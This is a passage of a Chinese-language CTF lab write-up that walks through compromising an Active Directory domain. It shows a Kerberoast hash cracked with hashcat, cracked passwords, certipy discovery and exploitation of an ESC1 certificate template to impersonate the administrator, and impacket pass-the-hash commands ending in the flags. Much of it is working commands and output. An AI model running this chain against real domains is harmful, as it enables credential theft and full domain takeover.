ad4a8650ced56b5d5edd7d4f57b6cddfdf8be6cfe43bbdf5ea7a03e8b20c6abb1f28ac3ff4a1b73b9574ed371ef62e3c38cee10a09e6ac9a48874ba020fadf23fa210b365dcf7dea9504220c78f79f5d315ed0f82fee55f9ced4fe9e647bf72bfc449e1ebc5f5b759debb1f36c81d1aeda2239770e38a2e43be9b04c8e3edd023097e60ef2b1191309c6849ed9e91aca237e49e7002063ca42d3cb5e890707b338c937182ed6183219e66cfdea11ee5f2c1af367a3bde88e8f85b0b6a365d0133254bd4f790c2a90a24e2a21596bf54beca4d446636976087b1aaff7816c9cddafdc0e7ca3cdb917f3bf6dbe5658e99149910a3df56aa674a42d800d7c01ad40ba8933f9deae45906846c6060ba2fb0fd2710090385a3cc1643c1af167c350f039dd42199ac9c4876593ce7004163c34c65d6da72449fe1a7a81a6372dde1ed08789afcad42fe3e3c967dc3f7b6e00c595fbe69b88c60fc5d428cc0ebbd231e03811a363ec91ab5c234b5157ce46a96b270b1a75a5b350282b6ff1043dd6f53956077f4fef28ed3d06d5ab6d6c5131bb5182be249b8c8bf70935524e420e555661ec495af5fe923a61ba19e2fa07496bb77e94e802421be78808f3a91c3f8a53b7ff9c6acf2d8c47ede39666d241b987ccc0d688260c462c8f891d9eda2d1c2b542e0dc0daeef695e514ccfcab088e113a0173ccdd4f1ae42680bfa067215b454344a9376d5f40791cc5480ae7f0834c7eedd9e4bae5955a9a857740c09dfbe7fdad3b942c9ef8e9466b6be0f49d50062c50a5eab2d09eab5116395844458579309a8509cfad39f8d383cf93d4294340d02911142e7cc605246cba1d886192e6edacec99255b0c79553d6f03daa84fb8ade4f65d956f73a740c01ed96368c49805c389d5db0493f14c8e9fc06d6cb3510d7f5e6f05dd5c0773f7fbf0a2070f4c219dcddf46a7a350ced9a679e8cd33034a52817779e9835f16cb51abb675f1dbbde0dd9a5e7ba1e0e37060d699a304400c62d892ad52d816a01261b4ce3e75ca8e8e3be7da8c01634f188ea1a77eeb51426710dd32e674fd3d7c1efeb7ef6ccb5e53bd5a544b14520858e98b49d0841454846195f4317d018530538dc3b219222264964539d5b654aed3d53192a68914cbe939b9ab6bd77065898e674d45d09b1397ca82df8c290cfbaefb2a1b680f6545ea33f9d90873a8be02b4669c1ffb72ac00

$krb5tgs$23$*chenchen$XIAORANG.LAB$xiaorang.lab/chenchen*$2b31304bfd9d2a4cc02ce02f50dce409$4b73100dce46b5cf0e2f2fc9593e080222ec1be7e5876910e9fcd792b6f68e2472061926293b9186aa624279387dab68d78b7f27799c304db3db07f07a73f083215fa76d78a4abffeaf1fd6ac740fa80e4dab9dd2bcea3a5f617a1b16615fa70a92c53e1df4d35bd6178db5b6897826af87b3a34dff3ec56805e6e722c3284880ff5af4b73946ab7d2842545737f81fe02ca14e2cb840ab78dbf7af469a7db773df3dafb841fd584f57cbb2944e7f462a8b7d2ff02d75efbe3c9b5d77ac93d6f1c7a38ecc3ee2f02a85ec707668ffb308e7bf606e564d34915b62a656fd97eaed08a0e6815e7cb298d2e3421c9cc8eca29f6b0e4936c3a7a2126029ab86455e9ada21982042673c78335c46efd9e3fba67dac11c3ea797448ffac0c043d7f7899f112a7455a25675f4e9da03d7754cc82b2f0a349ba8565b29abdb53bb4db90184ef51a65f669005c830a6769a7cdad1b0ca9ed7a28ace01f138e8c17e40638e15ef1849bb9e84c5fe08847b1bc2eb24b31e8a2e5387f887cc4bbb08b4e84fa6380f5c4d3a0068345a977fbcb20529f2f554e5f96a6a1dea5fd0beb2bc5db99da40735aac7d8c428bb27d7ace00f1777e3ce40c89d3dc0b4acac5950e74255a6fabbd59d36be1e7ba9dc2d25333c1cfc6fec59523bd230d8109c563e2ef54ac6e42863e9b6ac8ae2781d2a278d597fde1bd512c95c8c4b733f43df72a038b7e3a97b5ce191338abef7c9dc193924459cd7972a335173c4e3814c963160e8ce0cbca0c3ea10925da69f5f08ffe9463c42dbd1aff3043183910bb9bacafdb06385a2c0e2e432d0f049c11a3ff287b13d2e86b21bb73cd47a43ef3bc564a44ae12c28229ac1782a8f9808add496b81320f8c39502af1531337c21a1e80f1536a7335c9f37caf9f9736913289fd5532f9378dfd9ae0ea83a9eae532b9d3019a249dc94def92b0280d3f21bc3cb9ee2c8c1bdaf0c97587f23eae807994a3a2b811a7e55efa72507e394edac57888fdabcb65723d4dd49226b920ce9878a5f38713d3c888719c7c16f7e8b5ffad114621b7d81fb9ac2514b35204cd4d255e6eb8b5eb6d3a557b2c6ae3a086155e1bbfa8189f2ea096b507d48c4c6db0b9088ac2ae0b7f59dcf3c81586e18329402b5a318df5355fd91dcb44e95db329a242867b01d0b1c757807f499bdca15b7490340b04bc86bc023e610217655392b92dd8c4ab5924d6baf0ca11956318913d7f352509856dba97e83002ebdbcd5d1f7547beb997f0fe6a8f056cc167c4fcd8e550f5d5ca10a7dfa446055527fdcf52be0a20d0d9ae9d47f2fc9775ee2fa1df24c2be955f294c4a9c3f44c7fd41ffb389198af90cafb78e39e2692a388573b42a45e0748936831b30dcddddda3efbc5384a5a9f89145a958d59882ab8a673bc5504f4e2e37d4d18b87e6938a301c25f18680e0b36aa74e55ea36afaf00ed92039f8e69cad7834f8c1d75f20f94092e7511a2e97e845f7b5e9352696912cc8549bf1a89
```

### hashcat爆破

用hashcat破解一下，哈希的类型是13100，不知道的可以直接去看一下文档找一下

```bash
hashcat -m 13100 -a 0 1.txt rockyou.txt --force
```





```bash
XIAORANG.LAB\zhangxia
MyPass2@@6

XIAORANG.LAB\chenchen
@Passw0rd@
```

能rdp上去了，但是flag在管理员目录下，依旧很难拿到，回看题目考点里面写的AD CS，应该是域内机器有CS证书可以让我们拿域控，先看看证书情况，枚举一下

### certipy-ad枚举证书

https://github.com/ly4k/Certipy

```bash
┌──(root㉿kali)-[/]
└─# proxychains4 certipy-ad find -u 'zhangxia@xiaorang.lab' -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.9.7:636  ...  OK
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XIAORANG-DC-CA' via CSRA
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  XIAORANG-DC.xiaorang.lab:135 <--socket error or timeout!
[!] Got error while trying to get CA configuration for 'xiaorang-XIAORANG-DC-CA' via CSRA: Could not connect: [Errno 111] Connection refused
[*] Trying to get CA configuration for 'xiaorang-XIAORANG-DC-CA' via RRP
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  XIAORANG-DC.xiaorang.lab:445 <--socket error or timeout!
[!] Got error while trying to get CA configuration for 'xiaorang-XIAORANG-DC-CA' via RRP: [Errno Connection error (224.0.0.1:445)] [Errno 111] Connection refused
[!] Failed to get CA configuration for 'xiaorang-XIAORANG-DC-CA'
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  XIAORANG-DC.xiaorang.lab:80 <--socket error or timeout!
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : xiaorang-XIAORANG-DC-CA
    DNS Name                            : XIAORANG-DC.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XIAORANG-DC-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 43A73F4A37050EAA4E29C0D95BC84BB5
    Certificate Validity Start          : 2023-07-14 04:33:21+00:00
    Certificate Validity End            : 2028-07-14 04:43:21+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
Certificate Templates
  0
    Template Name                       : XR Manager
    Display Name                        : XR Manager
    Certificate Authorities             : xiaorang-XIAORANG-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Authenticated Users
      Object Control Permissions
        Owner                           : XIAORANG.LAB\Administrator
        Write Owner Principals          : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Dacl Principals           : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Property Principals       : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'XIAORANG.LAB\\Domain Users' and 'XIAORANG.LAB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication

```

扫出来一个ESC1，跟着打https://blog.csdn.net/Adminxe/article/details/129353293 就行

### ESC1漏洞

ESC1需要具备三个条件：

1. 基于此证书模板申请新证书的用户可以为其他用户申请证书，即任何用户，包括域管理员用户
2. 将基于此证书模板生成的证书可用于对 Active Directory 中的计算机进行身份验证
3. 允许 Active Directory 中任何经过身份验证的用户请求基于此证书模板生成的新证书

看到上面的内容中有这几个条件

```bash
Client Authentication: True	//证书可用于客户端身份验证
Enrollee Supplies Subject: True	
Certificate Name Flag: EnrolleeSuppliesSubject	//申请者可以在请求中指定任意 Subject 和 SAN
Requires Manager Approval: False	//无需管理员批准可自动签发申请的证书

Enrollment Permissions
        Enrollment Rights               : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Authenticated Users
                                          //这意味着任何一个域成员都可以申请证书
Private Key Flag: ExportableKey	//私钥可导出
```

首先利用XR Manager模板为域管请求证书

```bash
┌──(root㉿kali)-[/]
└─# proxychains4 certipy-ad req -u 'zhangxia@xiaorang.lab' -password 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca "xiaorang-XIAORANG-DC-CA" -template 'XR Manager'  -upn administrator@xiaorang.lab
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.9.7:445  ...  OK
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'administrator@xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

### 请求TGT票据

然后进行 Kerberos 认证请求TGT票据

```bash
┌──(root㉿kali)-[/]
└─# proxychains4 certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.9.7
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@xiaorang.lab
[*] Trying to get TGT...
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.9.7:88  ...  OK
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.9.7:88  ...  OK
[*] Got hash for 'administrator@xiaorang.lab': aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80
```

成功拿到管理员的hash，直接PTH就行

### Pass The Hash

```bash
proxychains4 impacket-wmiexec xiaorang.lab/administrator@172.22.9.7 -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 -codec gbk

proxychains4 impacket-wmiexec xiaorang.lab/administrator@172.22.9.26 -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 -codec gbk
```

两个flag都在管理员目录下

```bash
C:\Users\Administrator\flag>type C:\Users\Administrator\flag\flag04.txt
  ______                 _  ___       
 / _____)           _   (_)/ __)      
| /      ____  ____| |_  _| |__ _   _ 
| |     / _  )/ ___)  _)| |  __) | | |
| \____( (/ /| |   | |__| | |  | |_| |
 \______)____)_|    \___)_|_|   \__  |
                               (____/ 

flag04: flag{01420ae1-42e4-41b7-8631-13b5f08a36e3}

C:\>type C:\Users\Administrator\flag\flag03.txt
                                ___              .-.                
                               (   )      .-.   /    \              
  .--.      .--.    ___ .-.     | |_     ( __)  | .`. ;   ___  ___  
 /    \    /    \  (   )   \   (   __)   (''")  | |(___) (   )(   ) 
|  .-. ;  |  .-. ;  | ' .-. ;   | |       | |   | |_      | |  | |  
|  |(___) |  | | |  |  / (___)  | | ___   | |  (   __)    | |  | |  
|  |      |  |/  |  | |         | |(   )  | |   | |       | '  | |  
|  | ___  |  ' _.'  | |         | | | |   | |   | |       '  `-' |  
|  '(   ) |  .'.-.  | |         | ' | |   | |   | |        `.__. |  
'  `-' |  '  `-' /  | |         ' `-' ;   | |   | |        ___ | |  
 `.__,'    `.__.'  (___)         `.__.   (___) (___)      (   )' |  
                                                           ; `-' '  
                                                            .__.'   

      flag03: flag{e58bf70c-8a0a-43bc-a21a-a463d9ea6dfd}
```

完结撒花！
